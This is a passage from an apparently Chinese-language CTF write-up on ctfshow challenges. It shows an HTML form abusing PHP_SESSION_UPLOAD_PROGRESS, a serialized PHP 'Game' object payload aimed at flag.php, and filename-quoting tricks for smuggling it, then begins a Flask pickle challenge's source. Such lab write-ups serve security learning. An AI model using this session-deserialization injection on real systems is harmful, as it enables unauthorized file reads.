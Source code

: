 ##### session文件上传脚本（这里我上传了一个空的text文件）

```html
<!doctype html>
<html>
<body>
<form action="http://8975c3dd-0e68-4b58-a425-abdf4c9f5da4.challenge.ctf.show/" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
 	<input type="file" name="file" />
    <input type="submit" />
</form>
</body>
</html>
```

##### 序列化字符串

```
|O:4:"Game":1:{s:3:"log";s:22:"/var/www/html/flag.php";}
```

filename改为单引号，直接将文件名内容改为序列化字符串。

![](/images/剪刀石头布-4.png)

filename仍然是双引号，将序列化字符串中的双引号进行转义。

![](D:\HugoWebsite\R1one\Blog\static\images\剪刀石头布-5.png)

## baby_pickle

**打开环境后的页面显示**

```
欢迎来到新手村new_rookie
只有成为大菜鸡才能得到flag
```

**题目附件源码**

```python
# Author:
#   Achilles
# Time:
#   2022-9-20
# For:
#   ctfshow
import base64
import pickle, pickletools
import uuid
from flask import Flask, request

app = Flask(__name__)
id = 0
flag = "ctfshow{" + str(uuid.uuid4()) + "}"

class Rookie():
    def __init__(self, name, id):
        self.name = name
        self.id = id


@app.route("/")
def agent_show():
    global id
    id = id + 1
```